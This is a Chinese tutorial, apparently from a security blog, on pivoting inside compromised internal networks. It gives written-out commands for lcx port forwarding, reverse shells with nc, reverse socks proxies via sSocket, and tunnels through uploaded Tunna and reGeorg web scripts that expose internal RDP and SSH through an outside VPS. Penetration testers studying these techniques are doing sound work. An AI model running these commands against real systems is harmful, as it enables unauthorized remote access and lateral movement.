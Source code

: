 # 内网渗透中转发工具总结

最近一段时间内网渗透做的比较多，刚好今天比较有时间，就总结一下内网中转发的一些工具的使用。这里主要介绍了lcx、nc 、sSocket、tunna、reGeorg几款平时用的比较多的工具，网络上也有很多关于他们的介绍，而且也非常不错，但是并没有统一起来，写这篇文章就算是一个小小的汇总吧。

0x00 LCX转发
=====

内网机器上执行：lcx.exe –slave 公网IP +端口 内网IP +端口

例如：`lcx.exe –slave 192.168.43.142 51 192.168.43.137 3389`

将内网(192.168.43.137)的3389端口转发到公网(192.168.43.142)的51端口

![p1](http://drops.javaweb.org/uploads/images/f485cc084981f52bd321227d463fb03a781c0a01.jpg)

然后在公网的机器上：

Lcx.exe –listen 监听51端口，转发到公网机器的3389端口

例如：`Lcx.exe –listen 51 3389`

![p2](http://drops.javaweb.org/uploads/images/0a44302980a46f643986b4b7cb5048900ac8b78c.jpg)

这个时候已经将内网的3389转发到了公网机器的3389端口，我们在本地机器上远程公网IP+3389 ，就连接上了内网机器的3389

![p3](http://drops.javaweb.org/uploads/images/79413a840e64afdc38eacc9e2fd00a7583608069.jpg)

0x01 NC 反弹CMDshell
=====

本机：192.168.43.142(win7) 远程机器：192.168.43.137(xp)

**正向连接：**

在远程机器上(t参数可以省略)

![p4](http://drops.javaweb.org/uploads/images/8f947e01902d64e575819184b918440dcb9f63fe.jpg)

在本地机器上

![p5](http://drops.javaweb.org/uploads/images/4916133dd75cad8421bd84095864bb62c16bf427.jpg)

成功之后，本地机器就获得了一个远程机器的shell

![p6](http://drops.javaweb.org/uploads/images/738883d5e38818c60bbceaf31661ac24f2beeb8a.jpg)

**反向连接：**

在本机运行上

![p7](http://drops.javaweb.org/uploads/images/0168cda852508fdcd862dda22d1e7a07c88dc329.jpg)

在远程机器上(t参数可以省略)

![p8](http://drops.javaweb.org/uploads/images/164a01c5175d0d1fbbf586fac8980e6025afdda0.jpg)

然后成功之后，我们在本地机器上看一下，已经获得了远程机器的cmdshell

![p9](http://drops.javaweb.org/uploads/images/9e94ac1af8fa3cf12d8618db0b5af97468ef6be2.jpg)

这里还有前人总结的十种反弹shell的方法，很不错

*   [http://zone.wooyun.org/content/5064](http://zone.wooyun.org/content/5064)(wb>5)
*   [http://www.waitalone.cn/linux-shell-rebound-under-way.html](http://www.waitalone.cn/linux-shell-rebound-under-way.html)

0x02 sSocket
=====

一个socks代理工具套装，可用来开启socks代理服务，支持socks5验证，支持IPV6和UDP，并提供反向socks代理服务，即将远程计算机作为socks代理服务端，反弹回本地，极大方便内网的渗透测试。

下载地址：[https://sourceforge.net/projects/ssocks/](https://sourceforge.net/projects/ssocks/)

![p10](http://drops.javaweb.org/uploads/images/966e7f0b7ee9954f9a0328a57706475f2747b1ce.jpg)

先在vps 执行`rcsocket.exe –l 1088 –p 8888 –vv`, 监听1088端口

![p11](http://drops.javaweb.org/uploads/images/b0e52b73b893c93687b86b5c12592befd1c2ae82.jpg)

内网机器执行`./rssocks –vv –s 192.168.30.103:8888`(VPS)

![p12](http://drops.javaweb.org/uploads/images/bea0c145de44e5451b3f5bcd8baaa8cabe520b36.jpg)

成功，则会看到会话建立

![p13](http://drops.javaweb.org/uploads/images/024659ae234015fa6af9d06917fcaa7215b40469.jpg)

设置代理，让本机可以通过VPS的1088端口访问内网机器。

![14](http://drops.javaweb.org/uploads/images/68892da928bb69b87ae6ca4678e6dd68c7f45c39.jpg)

本机上 ssh 192.168.43.136内网主机

![p15](http://drops.javaweb.org/uploads/images/62d80e473a49c0b57e6c50fedd38a69d91da3bb2.jpg)

成功ssh到内网机器

![p16](http://drops.javaweb.org/uploads/images/14cdb0fc6ba860da1f8bcffc8e8758ef59fade91.jpg)

0x03 Tunna 正向代理
=====

[参考](http://drops.wooyun.org/tools/650)

`proxy.py -u http://xxx.com:206/test /conn.jsp -l 8888 -r 22 -v -s`

![p17](http://drops.javaweb.org/uploads/images/7d1c085d05245f5d26d7ddf4ecef8bceef8cdc04.jpg)

然后在xshell中执行  
ssh 127.0.0.1 8888,看到下面的样子，说明已经成功了

![p18](http://drops.javaweb.org/uploads/images/7b2fa31f81ab9a9d344f668885fab6a17a05f98c.jpg)

![p19](http://drops.javaweb.org/uploads/images/5a4c39daade2d79f7eaacc9f0abcc37e014ce416.jpg)

同样的，如果内网的机器是windows，就把3389转出来

`proxy.py -u http://xxx.com:206/test /conn.jsp -l 8888 -r 3389 -v`

其中几个参数的解释：

*   -l 表示本地监听的端口
*   -r 远程要转发的端口
*   -v 详细模式

另外，如果脚本传到了内网A机器上，但是想登录内网B机器，那么可以-a参数指定机器

将内网中172.16.100.20主机的3389转发到本地  
`python2.7 proxy.py -u http://219.x.x.x/conn.jsp -l 1234 -a 172.16.100.20 -r 3389`

0x04 reGeorg+proxifier 正向代理
=====

reGeorg是reDuh的继承者，利用了会话层的socks5协议，效率更高一些。这也是平时用的比较多的工具。

先将reGeorg的对应脚本上传到服务器端，直接访问显示“Georg says, 'All seems fine'”，表示脚本运行正常

![p20](http://drops.javaweb.org/uploads/images/a39b91b674703e83e04b1f5c863b7aa90b26e292.jpg)

运行`python reGeorgSocksProxy.py -p 8888 -u http://www.xxx.com/tunnel.php`

![p21](http://drops.javaweb.org/uploads/images/15d3dd5bba57b1aafeaa8a380b1d1ba9f41da3ee.jpg)

将proxifier打开，在Proxy Server中这样配置

![p22](http://drops.javaweb.org/uploads/images/b6d68489f509473379370b8bb1ed3d8b6c74b753.jpg)

![p23](http://drops.javaweb.org/uploads/images/6839094e69de1ee7c0170db5e6d8e3fd95447d34.jpg)

然后就可以在本地访问内网的机器了

![p24](http://static.wooyun.org//drops/20160429/2016042903552840012.png)

成功3389到内网机器

![p25](http://drops.javaweb.org/uploads/images/70befdf66a0867f5fbc92214d6566251c7f417de.jpg)